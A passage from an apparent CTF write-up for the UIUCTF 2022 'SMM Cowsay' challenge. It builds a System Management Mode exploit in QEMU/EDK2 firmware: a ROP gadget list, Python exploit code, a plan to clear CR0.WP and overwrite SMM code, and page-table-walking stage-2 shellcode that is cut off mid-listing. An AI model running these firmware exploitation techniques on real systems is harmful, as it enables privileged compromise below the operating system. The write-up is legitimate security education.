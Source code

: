 Now we can take a look at the gadgets in `PiSmmCpuDxeSmm.efi`. As it turns out,
we were lucky enough:

- Looking from GDB, we still have R13, R14 and R15 spilled on the SMI stack at
  the exact same offset.
- We can move the stack pointer forward: `ret 0x6d`
- We can flip the stack: `pop rsp; ret`
- We can pop RAX and other registers: `pop rax ; pop rbx ; pop r12 ; ret`
- We can set CR0: `mov cr0, rax ; wbinvd ; ret`
- We have a write-what-where primitive: `mov qword ptr [rbx], rax ; pop rbx ; ret`

We do not have a lot more nice gadgets to work with, so this time instead of
writing the entire exploit using ROP, after disabling CR0.WP, we will just use
the write-what-where gadget to overwrite a piece of `.text` of
`PiSmmCpuDxeSmm.efi` with a stage 2 shellcode, and then simply jump to it.

The only slightly annoying part is the `ret 0x6d` gadget to move the stack
forward: it will result in a misaligned stack, landing in the 2 most significant
bytes of the R13 value spilled on the stack. This isn't a real problem as
thankfully the CPU (or better, QEMU) does not seem to care about the unaligned
stack pointer. We'll simply have to do some bit shifting to put values on the
stack nicely using R{13,14,15}.

```python
# SmmConfigurationProtocol leaked using LocateProtocol(gEfiSmmConfigurationProtocolGuid)
PiSmmCpuDxeSmm_base = SmmConfigurationProtocol - 0x16210
PiSmmCpuDxeSmm_text = PiSmmCpuDxeSmm_base + 0x1000

log.success('SmmConfigurationProtocol    @ 0x%x', SmmConfigurationProtocol)
log.success('=> PiSmmCpuDxeSmm.efi       @ 0x%x', PiSmmCpuDxeSmm_base)
log.success('=> PiSmmCpuDxeSmm.efi .text @ 0x%x', PiSmmCpuDxeSmm_text)

new_smm_stack   = buffer + 0x800
ret_0x6d        = PiSmmCpuDxeSmm_base + 0xfc8a  # ret 0x6d
flip_stack      = PiSmmCpuDxeSmm_base + 0x3c1c  # pop rsp ; ret
pop_rax_rbx_r12 = PiSmmCpuDxeSmm_base + 0xd228  # pop rax ; pop rbx ; pop r12 ; ret
mov_cr0_rax     = PiSmmCpuDxeSmm_base + 0x10a7d # mov cr0, rax ; wbinvd ; ret
write_primitive = PiSmmCpuDxeSmm_base + 0x3b8f  # mov qword ptr [rbx], rax ; pop rbx ; ret

payload  = 'A'.encode('utf-16-le') * 200 + p64(ret_0x6d)
```

### Second stage shellcode

As we just said we will make our ROP chain with a few gadgets that will write a
second stage shellcode into the `.text` of `PiSmmCpuDxeSmm.efi` and then jump to
it. This shellcode will have to walk the page table (this time we cannot
pre-compute the address of the PTE because of ASLR), set the present bit on the
PTE and then read the flag into (one or more) registers.

```python
stage2_shellcode = asm(f'''
    movabs rbx, 0xffffffff000

    /* Walk page table */
    mov rax, cr3
    mov rax, qword ptr [rax]
    and rax, rbx
    mov rax, qword ptr [rax + 8 * 0x1]
    and rax, rbx
    mov rax, qword ptr [rax + 8 * 0x22]
    and rax, rbx
    mov rbx, rax
    mov rax, qword ptr [rax + 8 * 0x40]

    /* Set present bit */
    or al, 1
```

[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31